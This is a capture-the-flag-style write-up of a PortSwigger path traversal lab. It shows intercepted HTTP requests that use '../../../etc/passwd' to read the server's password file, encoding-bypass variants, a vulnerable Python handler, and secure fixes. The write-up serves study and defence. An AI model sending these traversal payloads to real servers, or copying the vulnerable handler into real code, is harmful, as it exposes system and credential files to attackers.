


# Lab 01: File Path Traversal, Simple Case

> **Topic**: Path Traversal
> **Lab Number**: 01
> **Platform**: PortSwigger Web Security Academy

## Category
Path Traversal — Simple `../` Sequence in Filename Parameter

## Vulnerability Summary
The application serves product images via a `filename` parameter in a GET request: `GET /image?filename=45.jpg`. No sanitization or validation is applied to this parameter. By replacing the filename with a traversal sequence (`../../../etc/passwd`), an attacker can break out of the intended image directory and read arbitrary files from the server filesystem. The server responds with the raw file contents, confirming unauthenticated arbitrary file read.

## Attack Methodology

### Step 1: Identify the Image Request
Intercepted the product page load in Burp Proxy. Product images are fetched via:

```http
GET /image?filename=45.jpg HTTP/2
Host: 0ad300e6044534108193ee0a00580035.web-security-academy.net
Cookie: session=wPGQTC8gF1sM3IqINKwxuMyRgnQQ8diD
```

The `filename` parameter is user-controlled and directly used to serve files from the server.

### Step 2: Inject Traversal Sequence
Sent the request to Repeater and replaced the filename value with a traversal payload targeting `/etc/passwd`:

```http
GET /image?filename=../../../etc/passwd HTTP/2
Host: 0ad300e6044534108193ee0a00580035.web-security-academy.net
Cookie: session=wPGQTC8gF1sM3IqINKwxuMyRgnQQ8diD
```

`../../../` traverses three directory levels up from the web root's image directory, landing at the filesystem root `/`, then reads `etc/passwd`.

### Step 3: Server Returns `/etc/passwd`
Response:

```http
HTTP/2 200 OK
Content-Type: image/jpeg
X-Frame-Options: SAMEORIGIN
Content-Length: 2316

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:4:65534:sync:/bin:/bin/sync
...
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
...
```

The server returned the full contents of `/etc/passwd` with a 200 OK, confirming arbitrary file read. Lab solved.





## Technical Root Cause

### Vulnerable Code (Pseudocode)
```python
import os

IMAGE_DIR = '/var/www/images'

def serve_image(request):
    filename = request.GET.get('filename', '')
    path = os.path.join(IMAGE_DIR, filename)   # no sanitization
    with open(path, 'rb') as f:                # opens arbitrary path
        return HttpResponse(f.read(), content_type='image/jpeg')
```

`os.path.join('/var/www/images', '../../../etc/passwd')` resolves to `/etc/passwd`. The application never checks whether the resolved path stays within the intended directory.

### Secure Code
```python
import os

IMAGE_DIR = '/var/www/images'

def serve_image(request):
    filename = request.GET.get('filename', '')
    # Resolve the full path and verify it stays within IMAGE_DIR
    path = os.path.realpath(os.path.join(IMAGE_DIR, filename))
    if not path.startswith(IMAGE_DIR + os.sep):
        return HttpResponseForbidden('Access denied')
    with open(path, 'rb') as f:
        return HttpResponse(f.read(), content_type='image/jpeg')
```

`os.path.realpath` resolves all `..` sequences and symlinks before the boundary check. If the resolved path doesn't start with the allowed directory, the request is rejected.

## Impact
- **Arbitrary File Read**: Any file readable by the web server process can be retrieved — `/etc/passwd`, application source code, configuration files, private keys
- **No Authentication Required**: The vulnerable endpoint is publicly accessible
- **Information Disclosure → Privilege Escalation**: `/etc/passwd` reveals usernames; combined with other vulnerabilities (weak passwords, SSH exposure), this can lead to full system compromise

**Severity: High**

## Proof of Concept

```
GET /image?filename=../../../etc/passwd HTTP/2
Host: <lab-id>.web-security-academy.net
```

Response: `HTTP/2 200 OK` with full `/etc/passwd` contents.

## Key Takeaways
1. **Never Trust User-Supplied Filenames**: Any parameter that maps to a filesystem path is a path traversal candidate. The `filename` parameter here had zero validation — the traversal payload worked on the first attempt.
2. **`os.path.join` Does Not Protect You**: A common misconception is that joining a base directory with a user value is safe. If the user value contains `../`, `os.path.join` will happily resolve outside the base. Always use `os.path.realpath` and check the result against the allowed base.
3. **Canonicalize Before Checking**: Checks against the raw input string (e.g., blocking `../`) are bypassable with encoding variants (`%2e%2e/`, `..%2f`, `....//`). Resolve the path to its canonical form first, then check the boundary.
4. **Principle of Least Privilege**: The web server process should only have read access to files it needs to serve. Even if traversal occurs, a correctly scoped filesystem permission model limits what can be read.

## Mitigation

### 1. Canonicalize and Enforce Directory Boundary
```python
path = os.path.realpath(os.path.join(IMAGE_DIR, filename))
if not path.startswith(IMAGE_DIR + os.sep):
    abort(403)
```

### 2. Allowlist Filenames
```python
import re
if not re.fullmatch(r'[a-zA-Z0-9_\-]+\.(jpg|jpeg|png|gif|webp)', filename):
    abort(400)
```
Reject anything that isn't a plain filename with a known image extension. This eliminates traversal sequences, null bytes, and unexpected file types in one check.

### 3. Serve Files via ID, Not Filename
```python
# Map product IDs to filenames server-side — never expose the filename to the client
image_path = db.get_image_path(product_id)
```
If the client never controls the filename, the attack surface disappears entirely.

## References
- [PortSwigger — File Path Traversal, Simple Case](https://portswigger.net/web-security/file-path-traversal/lab-simple)
- [PortSwigger — Path Traversal](https://portswigger.net/web-security/file-path-traversal)
- [OWASP — Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [CWE-22: Improper Limitation of a Pathname to a Restricted Directory](https://cwe.mitre.org/data/definitions/22.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium

---

*Lab completed on: 2026-05-08*  
*Writeup by vibhxr*
